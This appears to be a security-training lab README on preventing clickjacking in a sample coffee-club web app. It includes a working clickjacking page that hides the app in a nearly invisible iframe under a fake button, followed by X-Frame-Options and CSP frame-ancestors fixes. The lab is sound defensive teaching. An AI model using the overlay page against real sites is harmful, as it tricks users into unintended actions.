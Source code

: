 # Challenge 5: Clickjacking Prevention with `X-Frame-Options` and CSP

## Objective
Prevent visual clickjacking attacks using `X-Frame-Options` and `Content-Security-Policy` (`frame-ancestors`) headers.

---

## Attack Scenario

### Malicious Clickjacking Page
The attacker hosts the following malicious page to perform a clickjacking attack on the application:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>evil-site.com</title>
    <style>
        body {
            margin: 0;
            padding: 0;
            overflow: hidden;
            position: relative;
        }

        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 1024px; /* Fixed width for iframe */
            height: 768px; /* Fixed height for iframe */
            border: none;
            opacity: 0.1; /* Make the iframe nearly invisible */
            z-index: 1; /* Ensure iframe is above fake content */
        }

        .fake-button {
            position: absolute;
            top: 360px; /* Match the real button's position in iframe */
            left: 80px; /* Match the real button's position in iframe */
            z-index: 2; /* Ensure fake button is above iframe */
            background: red;
            color: white;
            padding: 20px;
            font-size: 18px;
            cursor: pointer;
            pointer-events: none; /* Make this button unclickable */
        }
    </style>
</head>
<body>
    <h1 style="text-align: center;">evil-site.com Malicious Page</h1>
    <p style="text-align: center;">This is a simulated clickjacking attack. Below is an invisible iframe attempting to capture user interaction.</p>
    <div class="fake-button">Click Me</div>
    <iframe src="http://localhost:3000"></iframe>
</body>
</html>
```
(see [`attacks/attack-clickjacking.html`](./attacks/attack-clickjacking.html))

### Steps to Reproduce
1. Open the malicious page file [`attacks/attack-clickjacking.html`](./attacks/attack-clickjacking.html) in a browser.
2. Visit the malicious page while your Oslo Coffee Club app is running on `http://localhost:3000`.
3. Interact with the fake button on the malicious page.
   - The iframe overlaps the fake button, capturing clicks intended for the real application.

---

## Protection Steps

### Step 1: Add `X-Frame-Options` Header
Use the `X-Frame-Options` header to control how your page can be embedded in iframes:

#### Example: Secure Header
```javascript
app.use((req, res, next) => {
    res.setHeader('X-Frame-Options', 'SAMEORIGIN'); // Allow embedding only from the same origin
    next();
});
```
- **`SAMEORIGIN`**: Allows embedding only on pages from the same origin.
- **`DENY`**: Disallows embedding in any frame.

### Step 2: Use `Content-Security-Policy` with `frame-ancestors`
For more granular control over iframe embedding, use the `frame-ancestors` directive in your CSP:

#### Example: CSP Header
```javascript
app.use((req, res, next) => {
    res.setHeader('Content-Security-Policy', "frame-ancestors 'self';"); // Allow embedding only from the same origin
    next();
});
```
- **`'self'`**: Allows embedding only from the same origin.
- **Specific domains**: Specify trusted domains (e.g., `frame-ancestors 'self' https://trusted.com;`).

---

### Step 3: Retest the Attack
1. Reload the malicious page (`attack-clickjacking.html`).
2. Verify that:
   - The iframe fails to load the Oslo Coffee Club application.
   - Browser developer tools show an error indicating the page cannot be embedded due to `X-Frame-Options` or CSP.


## Discussion: Scaling and Application to Legacy vs. New Applications

### Scaling Across Multiple Applications
- **Centralized Enforcement**:
   - Use a reverse proxy (e.g., Nginx, Apache) or an API gateway to enforce `X-Frame-Options` and CSP headers across all applications.
   - Define header rules globally to ensure consistency.

- **Challenges**:
   - Legacy systems may rely on iframe embedding for certain workflows.
   - Refactoring to remove iframe dependencies can be time-intensive.

- **Incremental Implementation**:
   - Start with `Report-Only` mode for CSP to identify potential issues without breaking functionality.
   - Gradually refactor workflows to eliminate reliance on iframe embedding.

- **Fallback**:
   - Use `X-Frame-Options` (`DENY`) for critical pages while allowing selective iframe embedding via CSP for less sensitive workflows.
